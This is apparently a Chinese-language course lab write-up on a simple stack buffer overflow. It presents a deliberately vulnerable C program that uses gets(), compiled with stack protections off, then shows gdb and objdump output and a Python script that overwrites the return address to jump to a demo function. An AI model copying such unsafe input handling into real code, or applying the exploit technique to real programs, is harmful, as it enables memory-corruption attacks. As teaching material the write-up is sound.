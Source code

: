 # 实验六：简单栈溢出实验

## 实验步骤

### 设计受害程序

受害程序是一个简单的 C 程序，包含两个函数：`victim_function()` 和 `malicious_function()`。`victim_function()` 使用不安全的 `gets()` 函数读取用户输入到固定大小的缓冲区 `buffer[64]` 中，存在栈溢出漏洞。此次实验的目的，就是利用这个缓冲区漏洞，覆盖 `victim_function()` 的返回地址，让其返回到 `malicious_function()` 的入口地址，从而实现恶意行为。

```c
#include <stdio.h>
#include <stdlib.h>

void malicious_function() {
    printf("Malicious function executed!\n");
    exit(0);
}

void victim_function() {
    char buffer[64];
    printf("Enter some text: ");
    gets(buffer);
    printf("You entered: %s\n", buffer);
}

int main() {
    printf("Starting victim program...\n");
    victim_function();
    printf("Exiting victim program...\n");
    return 0;
}
```

对其进行编译：

```bash
gcc victim.c -o victim -g -m32 -fno-stack-protector -no-pie
```

注意，这里将编译目标指定为 32 位（`-m32`），关闭了 Stack Canary 保护（`-fno-stack-protector`），关闭了 PIE（`-no-pie`）。

### 反汇编受害程序并构造恶意负载

使用 objdump 对受害程序进行反汇编：

```bash
objdump -d ./victim
```

发现 `malicious_function()` 的函数入口地址为 `0x08049196`：

```bash
08049196 <malicious_function>:
 8049196:       55                      push   %ebp
 8049197:       89 e5                   mov    %esp,%ebp
 8049199:       53                      push   %ebx
 804919a:       83 ec 04                sub    $0x4,%esp
 804919d:       e8 2e ff ff ff          call   80490d0 <__x86.get_pc_thunk.bx>
 80491a2:       81 c3 52 2e 00 00       add    $0x2e52,%ebx
 80491a8:       83 ec 0c                sub    $0xc,%esp
 80491ab:       8d 83 14 e0 ff ff       lea    -0x1fec(%ebx),%eax
 80491b1:       50                      push   %eax
 80491b2:       e8 a9 fe ff ff          call   8049060 <puts@plt>
 80491b7:       83 c4 10                add    $0x10,%esp
 80491ba:       83 ec 0c                sub    $0xc,%esp
 80491bd:       6a 00                   push   $0x0
 80491bf:       e8 ac fe ff ff          call   8049070 <exit@plt>
```

再使用 gdb 对受害程序进行反汇编：

```bash
gdb ./victim
```

在 `victim_function()` 处设置断点后运行程序，程序将在 `victim_function()` 处停止，此时我们可以查看当前栈帧的情况：

```bash
(gdb) break victim_function 
Breakpoint 1 at 0x80491d6: file victim.c, line 11.
(gdb) run
Starting program: /home/leverimmy/Documents/Projects/Cybersecurity-Fundamentals-Labs/Stack-Overflow/victim 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Starting victim program...

Breakpoint 1, victim_function () at victim.c:11
11          printf("Enter some text: ");
(gdb) info frame
Stack level 0, frame at 0xffffc2b0:
 eip = 0x80491d6 in victim_function (victim.c:11); saved eip = 0x8049244
 called by frame at 0xffffc2d0
 source language c.
 Arglist at 0xffffc2a8, args: 
 Locals at 0xffffc2a8, Previous frame's sp is 0xffffc2b0
 Saved registers:
  ebx at 0xffffc2a4, ebp at 0xffffc2a8, eip at 0xffffc2ac
```

这说明函数返回地址存放的地址为 `0xffffc2ac`。

再查看 `buffer[]` 的首地址：

```bash
(gdb) print &buffer
$1 = (char (*)[64]) 0xffffc260
```

因此，`buffer[]` 的首地址为 `0xffffc260`。

### 构造恶意负载

`0xffffc2ac` 和 `0xffffc260` 之差，就是我们需要填满的负载前缀。在前缀后加上 `malicious_function()` 的函数入口地址，就构造出了恶意负载。

```python
def p32(value):
    return value.to_bytes(4, byteorder='little')

if __name__ == "__main__":
    target_address = 0x8049196          # malicious_function() 的函数入口地址
    offset = 0xffffc2ac - 0xffffc260    # 返回地址和 buffer[] 首地址之间的距离

    payload = b"A" * offset + p32(target_address)

    with open("payload.txt", "wb") as f:
        f.write(payload)

    print(f"Payload written to payload.txt: {payload}")
```

这样会把恶意负载输出到 `payload.txt` 中。

## 实验截图

以 `payload.txt` 为输入，运行 `./victim`：

```bash
cat payload.txt | ./victim
```

得到如下结果：

![实验截图](./assets/result.png)

输出中含有 `Malicious function executed!`，这说明栈区溢出攻击成功。

